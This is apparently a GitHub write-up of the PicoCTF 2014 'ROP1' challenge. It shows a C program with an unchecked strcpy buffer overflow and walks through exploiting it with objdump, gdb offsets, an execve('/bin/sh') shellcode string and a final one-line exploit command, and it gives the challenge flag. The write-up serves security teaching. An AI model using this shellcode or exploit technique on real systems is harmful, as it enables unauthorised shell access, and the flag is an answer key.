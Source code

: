 #ROP1

This is a challenge from PicoCTF 2014 on return oriented programming. We are given a vulnerable C code shown below.

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void be_nice_to_people(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
}

void vuln(char *name){
    char buf[64];
    strcpy(buf, name);
}

int main(int argc, char **argv){
    be_nice_to_people();
    if(argc > 1)
        vuln(argv[1]);
    return 0;
}
```

#S#olution
What should come to our attention is the use of ```strcpy()``` function. This does not check for the length of the string we put in, so we are able to overwrite the content of the stack.
As the name of the challenge suggests, we are to implement ROP, and what we need here is so-called ROP-gadget that alters the value of the instruction pointer %eip 
in order to execute our shellcode.
Conveniently, the ```strcpy``` function returns the pointer to the string argument (=buf), and therefore, the value of %eax is exactly the address of buf in the stack.
What we can manipulate here is string %eax points to, so we want to set %eip to point to the address of %eax (by executing the instruction ```call %eax```). We can find such ROP-gadgets using objdump as well as grep
```
objdump -d rop1 | grep "call.*eax"
```
The first one in the list is ```8048d86```, so let's use this one.

Next, we need to figure out the distance between the address of %eax and the saved %eip in the stack. If we could overwrite this %eip to point to the instruction address of ROP-gadget,
we can set %eip to the address of %eax. On the server, we were equipped with gdb. Set a breakpoint at vuln() and run the program.
```
(gdb) b vuln
```
We can now check the address of saved eip in the stack.
```
(gdb) info frame
```
This should print something like the following (the address may differ)
```
Saved registers: 
 ebp at 0xffffd728, eip at 0xffffd72c
```
Ok, now let' see where %eax points to when it returns from ```strcpy()```
```
(gdb) info register eax
eax         0xfffd6e0
```
Take the difference, and this gives ```76```. This tells us that we should pass in a string of length 76 to fill the gap, which is followed by the 4 bytes giving the address of the ROP gadget we identified previously. 
Not over yet. The string we pass in must contain the shellcode we want to execute. Let's use this one for now
```
”\xeb\x18\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xb0\x0b\xcd\x80\xe8\xe3\xff\xff\xff/bin/sh”
```
Note that this system is little-endian. So we had to reverse the order of the hex digit: this applies to the address of the ROP-gadget too. 
Finally, we just feed this to the program as follows 
```
./rop1 $(python -c 'print "\xeb\x18\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xb0\x0b\xcd\x80\xe8\xe3\xff\xff\xff/bin/sh"+ "a"*38 + "\x86\x8d\x04\x08" ')
```
The flag is ```theres_no_need_to_guess```
